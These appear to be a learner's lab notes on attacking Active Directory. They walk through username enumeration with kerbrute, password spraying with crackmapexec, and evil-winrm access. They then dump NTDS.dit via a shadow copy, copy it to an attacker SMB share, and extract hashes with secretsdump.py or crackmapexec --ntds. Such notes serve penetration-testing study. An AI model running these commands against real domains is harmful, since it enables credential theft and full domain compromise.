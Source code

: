 # Attacking Active Directory & NTDS.dit

to get hashes from ntds.dit file we need system hive also which means bootkey. but get sam and security hives also if possible

`automated list generator` such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats

#### we can check username with kerbrute

![[images/image 9.png]]

[https://g0dl3v3l.com/user-enumeration-using-kerbrute-tool-5154a252f6a4](https://g0dl3v3l.com/user-enumeration-using-kerbrute-tool-5154a252f6a4)

### After that crack password with CME (crackmapexec)

![[images/image 10.png]]
### Once you get creds, connect via evil-winrm

Evil-WinRM connects to a target using the Windows Remote Management service combined with the PowerShell Remoting Protocol to establish a PowerShell session with the target.

## we need to have one of two group rights

### Administrator Local Group

![[images/image 11.png]]
part of Administrator group

### **Checking User Account Privileges including Domain group**

![[images/image 12.png]]
Part of domain group


We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

## Two ways to dump ntds.dit file

### dump with shadow copy

```powershell
vssadmin CREATE SHADOW /For=C:
```

### move to our kali


```powershell
cmd.exe /c move \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\10.10.14.199\ROPNOP
```


```powershell
reg.exe save hklm\system C:\Users\jmarston\Documents\system.save
```

![[images/image 13.png]]
process to transfer ntds.dit file

### Get hash with secretsdump.py


```bash
python3 /opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.save -hashes lmhash:nthash LOCAL
```


we need system hive for this
![[images/image 14.png]]
https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277

### Faster way CME (crackmapexec)

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

we can dump ntds hashes with it

![[images/image 15.png]]
